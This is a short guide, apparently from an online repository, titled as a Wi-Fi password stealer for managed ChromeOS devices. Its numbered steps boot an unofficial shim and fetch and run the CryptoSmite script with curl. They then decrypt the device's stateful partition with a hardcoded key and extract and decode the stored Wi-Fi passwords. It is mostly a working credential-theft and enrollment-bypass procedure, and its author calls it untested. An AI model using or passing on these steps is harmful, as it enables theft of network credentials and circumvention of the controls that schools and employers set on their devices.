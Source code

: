 ```yaml
---
title: wi-fi-pass-stealer-kv2
---
```


-e 
Notes:
-> THIS IS AN EXPERIMENTAL KAJIG, AND HAS NOT BEEN TESTED
-> Unless net-export and local file viewing are blocked, you're better off doing something else (file:///var/lib/devicesettings/policy.* should also contain the policies)

Overview:
-> Basically, what we do is use CryptoSmite's backups to get a readable stateful, and then read the policy's networks from that

Requirements:
-> Device has auto-enrollment
-> Device is on kernver 2
-> An external USB stick and a flashing method
-> A decent amount of ChromeOS hacking knowledge (this is an experimental kajig -- no skids allowed!)

Steps:
1. Downgrade to the lowest available ChromeOS version.
2. Install a shim on your USB (SH1MMER and shimboot both work).
3. Boot your USB.
4. At a shell, run curl -LO https://raw.githubusercontent.com/FWSmasher/CryptoSmite/main/cryptosmite.sh, as well as curl -LO https://github.com/FWSmasher/CryptoSmite/raw/main/cryptsetup_x86_64
5. In your editor of choice, remove line 123 from cryptosmite.sh.
6. Run the script as normal.
7. Restart the machine.
8. Powerwash as normal.
9. Don't do anything at the enrollment screen.
10. Once enrollment is completed, go back into the shim.
11. Run mkdir /mnt/{encstateful,stateful_part}
12. Run base64 -d 24Ep0qun5ICJWbKYmhcwtN5tkMrqPDhDN5EonLetftgqrjbiUD3AqnRoRVKw+m7l > stateful_key
13. Run mount /dev/mmcblk0p1 /mnt/stateful_part # should be the stateful part; if not, edit as appropriate
14. Run ${CRYPTSETUP_PATH} open --type plain --cipher aes-cbc-essiv:sha256 --key-size 256 --key-file stateful_key /mnt/stateful_part/encrypted.block encstateful
15. Run mount /dev/mapper/encstateful /mnt/encstateful
16. Run more /home/root/*/shill/shill.profile
17. Find the Password=rot47 line and copy the text below it
18. Run echo ${TEXT} | tr '!-~' 'P-~!-O'

Credits:
symlink
Titanium Network
